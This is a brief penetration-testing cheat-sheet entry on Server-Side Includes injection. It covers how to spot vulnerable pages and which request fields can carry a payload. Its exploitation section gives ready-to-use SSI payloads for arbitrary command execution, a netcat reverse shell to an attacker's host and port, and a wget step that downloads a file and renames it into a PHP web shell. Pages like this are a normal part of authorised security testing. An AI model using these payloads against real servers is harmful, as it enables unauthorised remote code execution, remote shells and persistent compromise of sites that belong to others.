 # SSI

## Testing for SSI

The Server-Side Includes attack allows the exploitation of a web application by injecting scripts in HTML pages or executing arbitrary codes remotely. It can be exploited through manipulation of SSI in use in the application or force its use through user input fields.

It is possible to detect SSI vulnerabilities in two ways:

* Presence of webpages with .stm, .shtm or .shtml extension
* Submitting a payload containing the following characters `< ! # = / . " - > and [a-zA-Z0-9]`

## Exploitation

The injection point for the payload can be any parameter of a request such as cookies,  headers, url parameters form fields and the name of uploaded files.

```
<!--#exec cmd="<cmd>" -->                        #command execution
<!--#exec cmd="nc -c bash <host> <port>" -->     #reverse shell
<!--#exec cmd="wget http://<path>shell.txt | mv shell.txt shell.php" -->
```



